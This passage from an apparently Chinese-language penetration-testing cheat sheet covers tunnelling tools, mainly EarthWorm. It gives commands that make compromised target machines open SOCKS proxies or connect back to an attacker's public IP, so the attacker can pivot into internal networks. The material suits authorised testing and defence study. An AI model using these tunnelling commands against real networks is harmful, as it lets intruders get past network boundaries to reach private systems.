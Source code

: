         - 更多关于性能和稳定性的参数设置参考 -h 帮助信息

            - 生成服务端脚本

                `python neoreg.py generate -h`

            - 连接服务端

                `python neoreg.py -h`


### earthworm

项目地址:   https://github.com/rootkiter/EarthWorm

- 示例

    - 目标有公网IP且可任意开监听端口

        - 目标机上执行

            `./ew -s ssocksd -l 8888`

        - 攻击机直接连接目标机的8888端口,即可使用目标机提供的代理

    - 目标无公网IP

        - 攻击机上执行

            `./ew -s rcsocks -l 1080 -e 8888`

        - 目标机上执行

            `./ew -s rssocks -d 1.1.1.1 -e 8888`
            1.1.1.1 为攻击机的公网IP

        - 通过访问 1.1.1.1 的 1080 端口即可代理到内网

    - 目标机A有公网IP,目标机B无公网IP且无法访问公网,目标机A能访问目标机B

        - 在主机B上执行

            `./ew -s ssocksd -l 9999`

        - 在主机A上执行

            `./ew -s lcx_tran -l 1080 -f 192.168.1.1 -g 9999`
            192.168.1.1为B主机IP

        - 通过访问A主机的 1080 端口来使用 B主机提供的 socks5 代理

    - 目标机A,B均无公网IP,A和B互通,A可通公网但无法访问特定资源,B可访问特定资源但不通公网

        - 攻击机执行(有公网IP)

            `./ew -s lcx_listen -l 1080 -e 8888`

        - 目标机B执行

            `./ew -s ssocksd -l 9999`

        - 目标机A执行

            `./ew -s lcx_slave -d 1.1.1.1 -e 8888 -f 192.168.1.1 -g 9999`
            1.1.1.1 为攻击机公网IP,192.168.1.1 为目标机B的内网IP
